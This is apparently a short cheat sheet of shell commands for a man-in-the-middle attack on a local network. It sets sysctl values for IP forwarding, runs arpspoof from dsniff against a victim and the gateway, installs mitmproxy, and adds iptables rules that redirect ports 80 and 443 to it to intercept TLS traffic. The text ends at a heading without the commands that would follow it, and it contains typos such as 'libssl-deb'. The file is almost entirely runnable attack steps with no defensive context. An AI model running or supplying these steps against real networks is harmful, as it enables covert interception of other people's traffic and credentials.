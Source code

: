 # We edit the sysctl.conf file --> /etc/sysctl.conf (as root) and make sure:

net.ipv4.ip_forward = 1
net.ipv4.conf.all.send_redirects = 0

# And reload the sysctl with the command:

sysctl -p


# To send fake ARP messages to the victim and the router:

apt update
apt install dsniff

# We need to open 2 terminals and keep them running:

    # Terminal 1:
    arpspoof -t <gateway_ip> <victim_ip>

    # Terminal 2:
    arpspoof -t <victim_ip> <gateway_ip>

# Open wireshark and sniff packets ;)

###### MITMPROXY ####### --> To intercept TLS connetions

# Install MITMproxy on attacker's PC

apt update
apt install dsniff python3-dev python3-pip libffi-dev libssl-deb
pip3 install mitmproxy

# redirect http/https traffic to MITMproxy

iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <listenport>
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port <listenport>

# Run ARP spoofing:

# We need to open 2 terminals and keep them running:
